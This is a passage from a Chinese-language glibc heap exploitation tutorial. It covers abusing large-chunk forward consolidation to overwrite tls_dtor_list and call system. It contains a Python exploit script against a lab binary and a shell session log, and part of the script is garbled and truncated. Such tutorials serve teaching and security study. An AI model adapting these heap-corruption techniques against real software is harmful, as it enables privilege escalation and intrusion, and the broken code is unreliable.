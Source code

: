 所以现在攻击者需要覆盖要被释放的 large 块的`malloc_chunk`元素，像这样：

*   `fd`应该指向被释放的块，来绕过主要环形双向链表的加固。
*   `bk`也应该指向被释放的块，来绕过主要环形双向链表的加固。
*   `fd_nextsize`应该指向`tls_dtor_list - 0x14`。
*   `bk_nextsize`应该指向含有`dtor_list`元素的堆地址。

`fd_nextsize`可写的问题解决了，因为`tls_dtor_list`属于`libc.so`的可写区段，并且通过反汇编`_call_tls_dtors()`，`tls_dtor_list`的地址为`0xb7fe86d4`。

`bk_nextsize`可写的问题也解决了，因为它指向堆地址。

使用所有这些信息，让我们编写利用程序来攻击漏洞二进制的“前向合并”。

利用代码：

```
#exp_try.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b430
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```

执行上述利用代码不会向我们提供 root shell。它向我们提供了一个运行在我们的权限级别的 bash shell。嗯…

```
$ python -c 'print "A"*16' > inp_file
$ python exp_try.py 
Calling vulnerable program
sh-4.2$ id
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ exit
exit
$
```
